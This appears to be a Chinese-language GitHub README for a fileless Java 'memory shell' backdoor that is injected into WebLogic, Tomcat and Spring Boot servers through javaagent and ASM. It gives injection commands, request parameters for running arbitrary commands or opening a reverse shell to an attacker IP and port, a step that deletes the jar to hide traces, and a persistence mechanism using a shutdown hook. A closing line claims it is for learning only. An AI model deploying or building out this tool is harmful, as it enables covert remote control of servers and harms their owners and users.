





# 说明
一个基于`javaagent`+`ASM`的无文件落地的javaagent，兼容多种容器(weblogic,Tomcat,Springboot).

# inject jdk要求
* Java 8

# agent jdk要求
* Java 6-11

# 兼容版本
* weblogic 10.3.6
* weblogic 12.2.1.2
* weblogic 12.2.1.3
* weblogic 12.1.3.0
* Tomcat 8.5.61
* Spring boot

# 测试平台
* macos 10.0+
* centos 7.1
* windows 10
* windows 11

# 使用说明
## inject 参数
```shell
java -jar inject.jar [your_password]  # 通用运行
java -jar inject.jar -p               # 打印所有运行的java进程名
java -jar inject.jar [your_password] [process_name] # 定向注入到[process_name]
```
## 请求参数

```text
任意url?psw =[your_password]&cmd=[your_cmd]  执行任意命令
任意url?psw =[your_password]&ip=[attack_ip]&port=[attack_port] 反弹shell
```

# 测试案例
运行`java -jar inject-1.0.jar x1001`

在服务器端可以看到以下，说明注入成功，并删除当前jar包，达到无shell状态：

访问任意url，带上参数`psw=your_password&cmd=your_cmd`

当应用关闭时。攻击jar包自动生成到java虚拟机目录下。

下次启动，自动注入达到持久化的效果。


> 经测试，通过`kill -9`或者`强制结束进程`杀死容器进程，并不会触发`addShutdownHook`,也就不会持久化。
>网上查询以下几种杀死进程的情况:
>* 所有的线程已经执行完毕（√）
>* 调用System.exit()（√）
>* 用户输入Ctrl+C（√）
>* 遇到问题异常退出（√）
>* kill -9 杀掉进程（×）

# 更新
## 2021/06/19
* 修改hook点为`javax/servlet/FilterChain`，使其同时兼容tomcat.
* weblogic注入内存马，现在访问任意url，带上密码和命令即可

## 2021/12/02
* 简化hook流程
* 去除大部分打印
* inject.jar增加自定义hook的进程
* 增加反弹shell

# 参考
https://github.com/rebeyond/memShell

# 声明
本项目仅供学习使用，勿做它用


